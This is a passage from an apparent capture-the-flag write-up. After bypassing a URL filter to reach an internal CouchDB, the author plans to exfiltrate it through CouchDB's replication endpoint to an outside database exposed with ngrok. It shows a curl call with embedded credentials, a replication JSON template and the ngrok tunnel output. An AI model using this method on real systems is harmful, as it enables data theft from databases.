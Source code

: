 ```bash
$ curl -s http://neptunian:neptunian@couchdb:5984/neptunian/99ea668366ac9d5d74fd2bc91c00fd09 | jq
{
  "_id": "99ea668366ac9d5d74fd2bc91c00fd09",
  "_rev": "1-f8744c7d9e172ac4b188fbb8f337a204",
  "some_int": 1,
  "some_string": "c"
}
```

It lives!

We successfully bypassed the URL filter and we are able to play with our couch database. We got into the door but... we still can't exfiltrate information from there.

## Rescuing the Keymaker

![keymaker](img/rescuing_the_keymaker.jpeg)

While searching for some couchdb webhook, I've found very a simple solution: couchdb replication: https://docs.couchdb.org/en/3.1.1/replication/replicator.html.

Since we already have the _replicator database in place, this is quite simple. You just have to POST into _replicate endpoint, a JSON with a source and destination:

```JSON
{
    "source": "source_db_name",
    "target": "http://dest_user:dest_password@destination_host/dest_database"
}
```

Let's put our local couchdb available on the internet, using our forever friend: ngrok.

```
ngrok by @inconshreveable                                                                                                     (Ctrl+C to quit)
                                                                                                                                              
Session Status                online                                                                                                          
Account                       me@mydomain.com (Plan: Free [pay a full account you cheap bastard!])                                                                         
Version                       2.3.40                                                                                                          
Region                        United States (us)                                                                                              
Web Interface                 http://127.0.0.1:4040                                                                                           
Forwarding                    http://2d0a4710580a.ngrok.io -> http://localhost:5984                                                           
Forwarding                    https://2d0a4710580a.ngrok.io -> http://localhost:5984                                                          
                                                                                                                                              
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                     
                              0       0       0.00    0.00    0.00    0.00
```

